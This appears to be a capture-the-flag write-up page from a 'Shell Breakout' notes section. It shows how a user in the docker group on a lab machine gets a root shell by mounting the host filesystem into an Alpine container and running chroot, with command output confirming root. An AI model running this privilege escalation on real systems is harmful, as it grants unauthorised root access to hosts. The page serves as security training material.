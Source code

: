 ```yaml
---
layout: default
title: Docker
parent: Shell Breakout
nav_order: 1
---
```


# Docker

---

## Exploit Docker Permissions

```bash
selena@pwned:/home$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

As we can see above, Selena is in the _docker_ group.

We can see which Docker images are on this machine

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
selena@pwned:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        3 years ago         88.3MB
<none>              <none>              e13ad046d435        3 years ago         88.3MB
alpine              latest              a24bb4013296        3 years ago         5.57MB
debian              wheezy              10fcec6d95c4        4 years ago         88.3MB

```

According to GTFOBins we can exploit _docker_ to get a root shell

![gtfobins](../../../assets/images/ctfs/proving_grounds/pwned1/gtfobins.png)

```bash
selena@pwned:/home$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami
root

```
